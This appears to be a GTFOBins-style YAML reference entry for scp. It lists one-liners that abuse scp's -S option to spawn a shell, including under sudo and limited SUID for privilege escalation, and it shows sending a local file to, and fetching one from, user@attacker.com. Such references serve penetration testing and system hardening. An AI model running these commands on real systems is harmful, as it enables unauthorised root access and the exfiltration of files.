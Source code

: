 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        scp -S $TF x y:
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=file_to_save
        scp $RPATH $LFILE
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        sudo scp -S $TF x y:
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        ./scp -S $TF a b:
---
```

